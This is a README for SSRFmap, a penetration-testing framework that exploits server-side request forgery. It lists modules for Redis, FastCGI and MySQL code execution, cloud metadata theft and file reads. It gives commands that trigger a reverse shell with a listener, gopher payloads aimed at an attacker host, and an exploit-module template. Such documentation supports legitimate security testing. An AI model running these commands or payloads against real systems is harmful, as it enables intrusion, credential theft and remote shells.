# SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/) [![Rawsec's CyberSecurity Inventory](https://inventory.raw.pm/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.raw.pm/)


SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

# LFI To RCE

Code name ``lfitorce.py`` using to exploit an lfi to RCE vulnerability and have an interactive session !
Tool added by christbowel 💻🎭

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Summary

* [Modules](#modules)
* [Install and Manual](#install-and-manual)
* [Examples](#examples)
* [SSRFmap - Tests](#ssrfmap-tests)
* [Contribute](#contribute)
  * [Contributors](#thanks-to-the-contributors)


## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zabbix`       | Zabbix RCE |
| `mysql`        | MySQL Command execution |
| `docker`       | Docker Infoleaks via API |
| `smtp`         | SMTP send mail |
| `portscan`     | Scan top 8000 ports for the host |
| `networkscan`  | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `gce`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy |
| `smbhash`      | Force an SMB authentication via a UNC Path |
| `tomcat`       | Bruteforce attack against Tomcat Manager |
| `custom`       | Send custom data to a listening service, e.g: netcat |
| `memcache`     | Store data inside the memcache instance |


## Install and Manual

Basic install from the Github repository.

```powershell
$ git clone https://github.com/swisskyrepo/SSRFmap
$ cd SSRFmap/
$ pip3 install -r requirements.txt
$ python3 ssrfmap.py

  usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                    [-v [VERBOSE]] [--lhost LHOST] [--lport LPORT]
                    [--uagent USERAGENT] [--ssl [SSL]] [--level [LEVEL]]

  optional arguments:
    -h, --help          show this help message and exit
    -r REQFILE          SSRF Request file
    -p PARAM            SSRF Parameter to target
    -m MODULES          SSRF Modules to enable
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --proxy PROXY       Use HTTP(s) proxy (ex: http://localhost:8080)
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

## Examples

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. 
They should look like the following. More examples are available in the **/data** folder.

```powershell
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.
  - Redis PHP Exploitation 
  - HTTP module (Jenkins ?)
  ```powershell
  gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
  gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.

### Thanks to the contributors

- [ttffdd](https://github.com/ttffdd)

## Inspired by

- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
